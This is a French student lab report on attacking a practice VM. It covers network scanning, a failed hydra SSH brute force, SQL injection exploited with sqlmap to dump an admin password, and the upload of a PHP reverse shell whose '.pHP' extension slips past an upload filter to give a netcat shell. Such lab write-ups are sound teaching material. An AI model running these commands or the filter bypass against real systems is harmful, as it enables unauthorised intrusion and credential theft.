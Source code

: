# Rapport du TP4

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1732280959237](image/rapport-tp4/1732280959237.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.7/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.7`

![1732281030145](image/rapport-tp4/1732281030145.png)

On voit que 2 ports sont ouverts : le 22 et le 80

## Port 22


On sait que le port 22 correspont à ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.7`

![1732286142457](image/rapport-tp4/1732286142457.png)

En testant plusieurs fichiers txt différents on constate que ça échoue.


## Port 80

Il s'agit d'un serveur web, je me rend donc à l'url 10.0.2.7 et je tombe sur un blog

![1732281931595](image/rapport-tp4/1732281931595.png)

En cliquand sur le lien de "test" et en ajoutant un caractère (virugle / apostrophe) dans l'url, j'obtiens un message m'indiquant une erreur de syntaxe SQL.

![1732282094489](image/rapport-tp4/1732282094489.png)

Je sais donc qu'il y a du SQL et je vais pouvoir utiliser l'outil SQLMap sur cette url pour tenter de trouver des failles.

Avec l'option "--db", on cherche à énumérer les bases de données. L'option "--batch" pour ne pas avoir à confirmer les entrées dans le terminal, cela permet de faire les choix par défaut.
`sqlmap -u http://10.0.2.7/cat.php?id=1 --dbs --batch`

Cette commande nous informe de l'existance de 2 bases de données : information_schema et photoblog.

![1732283321308](image/rapport-tp4/1732283321308.png)


On va maintenant essayer de récupérer toutes les tables de la base de données information_schema

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D information_schema --tables`

![1732284725781](image/rapport-tp4/1732284725781.png)

Je ne remarque rien de spécial.

On essaye donc de récupérer toutes les tables de la base de données photoblog

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog --tables`

![1732284864154](image/rapport-tp4/1732284864154.png)

Cette fois-ci on observe une table users qui peut nous intéresser pour potentiellement obtenir des identifiants de connexion.

La commande suivante nous permet de tirer des informations des utilisateurs de la base de données photoblog avec l'option "-D" pour spécifier la base de données photoblog et "-T" pour spécifier que l'on veut rechercher dans la table users. "--dump" permet d'extraire des informations de la table.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog -T users --dump --batch`

![1732285222603](image/rapport-tp4/1732285222603.png)

La commande nous affiche un user (admin) avec son mot de passe (P4ssw0rd).

En retournant sur google à l'url "http://10.0.2.7" on peut se rendre dans l'onglet admin et entrer les identifiants de connexion

![1732285546343](image/rapport-tp4/1732285546343.png)

Cela nous redirige vers la page de gestion des utilisateurs

![1732285714579](image/rapport-tp4/1732285714579.png)

Etant donné que PHP est utilisé gérer les requêtes, on peut essayer de générer un payload PHP pour attaquer la cible. 

On va générer un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine hote) sur le port (1234).

On va faire une copie d'un payload préinstallé sur la machine

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

Maintenant on va modifier ce fichier "script.php" afin de faire correspondre l'ip (ip hôte) et le numéro de port (1234).

![1732293885837](image/rapport-tp4/1732293885837.png)

Je peux ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote.

Sur le site web, je clique sur ajouter une image. En essayant d'importer le "script.php", et j'ai alors eu un message d'erreur indiquant "NO PHP!!" qui s'affiche.

![1732289222546](image/rapport-tp4/1732289222546.png)

Pour bypass cette erreur, on peut modifier le nom du fichier de "payload.php"  en "payload.pHP". Puis on le réimporte, il n'ya a pas d'erreur. 

![1732294916166](image/rapport-tp4/1732294916166.png)

Enfin, en cliquant sur le script dans la liste, ce dernier s'execute et netcat intercepte la connexion sur le port 1234, me redirigeant directement sur le terminal de la machine cible.

![1732294208906](image/rapport-tp4/1732294208906.png)

Je peux vérifier que je suis bien connecté à la machine cible avec la commande "ip addr". On retrouve bien lip `10.0.2.7`.

![1732295085822](image/rapport-tp4/1732295085822.png)